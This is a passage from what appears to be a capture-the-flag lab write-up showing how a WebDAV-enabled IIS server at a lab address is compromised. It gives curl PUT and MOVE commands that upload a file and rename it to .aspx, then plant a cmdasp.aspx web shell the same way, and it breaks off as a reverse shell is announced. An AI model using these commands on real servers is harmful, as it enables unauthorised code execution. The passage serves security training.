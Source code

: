 ```shell
PUT File: http://10.10.10.15/DavTestDir_lOl40HHuEoYCr/davtest_lOl40HHuEoYCr.txt
PUT File: http://10.10.10.15/DavTestDir_lOl40HHuEoYCr/davtest_lOl40HHuEoYCr.pl
PUT File: http://10.10.10.15/DavTestDir_lOl40HHuEoYCr/davtest_lOl40HHuEoYCr.jsp
Executes: http://10.10.10.15/DavTestDir_lOl40HHuEoYCr/davtest_lOl40HHuEoYCr.html
Executes: http://10.10.10.15/DavTestDir_lOl40HHuEoYCr/davtest_lOl40HHuEoYCr.txt
```
The results show that a lot of file types can be uploaded but not `asp` or `aspx`, which are of my interest. However, `txt` and `html` files are allowed and can be uploaded.

#### Manual
Remember that `PUT` is not the only method that is allowed. I also can use the `MOVE` method. The `MOVE` HTTP method not only can be used to change the location of a file on the web server, but it can also be used to rename files.

I will try to upload a file with `.txt` extension with `curl`. Once the text file is uploaded onto the server I will change the file extension to `.aspx`

Create and Upload:
```shell
echo "PwnStuff" > test.txt
root@kali# curl -X PUT http://10.10.10.15/test.txt -d @test.txt
root@kali# curl http://10.10.10.15/test.txt
```

Change Extension:
```shell
root@kali# curl -X MOVE -H 'Destination:http://10.10.10.15/test.aspx' http://10.10.10.15/test.txt
root@kali# curl http://10.10.10.15/test.aspx
```

Success:
![img](https://user-images.githubusercontent.com/83878909/270296381-2bc4a9ea-988a-43b5-b152-014075609db5.png)

### Web Shell
I will use an `aspx` web shell from `/usr/share/webshells/aspx/cmdasp.aspx`:
```shell
root@kali# cp /usr/share/webshells/aspx/cmdasp.aspx .
root@kali# mv cmdasp.aspx revsh.txt
```

Upload and rename the extension of the web shell:
```shell
root@kali# curl -X PUT http://10.10.10.15/revsh.txt --data-binary @revsh.txt
root@kali# curl -X MOVE -H 'Destination:http://10.10.10.15/revsh.aspx' http://10.10.10.15/revsh.txt
```

Access the web shell:
![img](https://user-images.githubusercontent.com/83878909/270300015-9f945906-a62a-457b-b743-641e12ce5ae8.png)

## Initial Foothold
Since it is now confirmed that ASPX code can be successfully uploaded and executed on the web server. I will upload a reverse shell to gain a foothold.
